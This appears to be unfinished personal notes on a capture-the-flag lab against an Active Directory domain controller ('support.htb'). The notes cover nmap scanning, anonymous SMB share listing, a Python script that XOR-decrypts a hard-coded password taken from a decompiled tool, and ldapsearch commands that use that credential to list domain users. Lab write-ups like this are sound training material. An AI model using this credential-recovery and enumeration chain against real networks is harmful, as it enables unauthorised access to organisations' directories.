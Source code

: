 # Enumeration

Look what ports are opens
```bash
nmap -p- --min-rate 10000 -oA nmap/massive_scan 10.129.224.189
Nmap scan report for 10.129.224.189 (10.129.224.189)
Host is up (0.026s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49690/tcp open  unknown
49695/tcp open  unknown
49711/tcp open  unknown

```

take the ports open and run the nmap with `-sVC` flag
```bash
sudo nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49678,49690,49695,49711 10.129.224.189 -oA complete_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-22 02:24 EDT
Nmap scan report for DC.support.htb0 (10.129.224.189)
Host is up (0.061s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-22 06:24:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-22T06:25:42
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.80 seconds

```

the hostname `DC` and `support.htb0` are both leaked. I'll update my `hosts` file with `10.129.224.189 DC.support.htb support.htb`

## Shares Enumeration

```bash
smbclient -N -L //support.htb            

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to support.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

TODO: Aggiungere come scaricare `iLSpy`

![[Pasted image 20250622103330.png]]

to decrypt the base64 string using XOR algorithm we need the value of **key** variable.
`armando` is the **key** value

![[Pasted image 20250622103439.png]]

XOR have is bidirectional means the same method to chiper the string will be use to decrypt. We can use the same c# fuctions founded in PE file but on my kali machine i prefer to use python. This is my python script to decrypt the pasdword

```python

import base64


base64_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = list("armando".encode())

print(base64_password, '\n')
print(key,'\n') 

print("****************** XOR DECRYPT *************************")

array = base64.b64decode(base64_password)
decrypted = bytearray()

for i in range(len(array)):
	byte = (array[i]^key[i % len(key)]) ^ 0xDF
	decrypted.append(byte)

d = decrypted.decode("utf-8")

print(d)


'''
public static string getPassword()
{
	byte[] array = Convert.FromBase64String(enc_password);
	byte[] array2 = array;
	for (int i = 0; i < array.Length; i++)
	{
		array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
	}
	return Encoding.Default.GetString(array2);
}
'''
```



TODO:
spigare che ho dovuto usare '' perche' altrimenti il dollaro viene preso come variabile

```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(ObjectClass=Users)"

```



get all'users with ldap query

```bash
ldapsearch -H LDAP://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" '(objectClass=User)' sAMAccountName | grep sAMAccountName
# requesting: sAMAccountName 
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: DC$
sAMAccountName: krbtgt
sAMAccountName: ldap
sAMAccountName: support
sAMAccountName: smith.rosario
sAMAccountName: hernandez.stanley
sAMAccountName: wilson.shelby
sAMAccountName: anderson.damian
sAMAccountName: thomas.raphael
sAMAccountName: levine.leopoldo
sAMAccountName: raven.clifton
sAMAccountName: bardot.mary
sAMAccountName: cromwell.gerard
sAMAccountName: monroe.david
sAMAccountName: west.laura
sAMAccountName: langley.lucy
sAMAccountName: daughtler.mabel
sAMAccountName: stoll.rachelle
sAMAccountName: ford.victoria

```


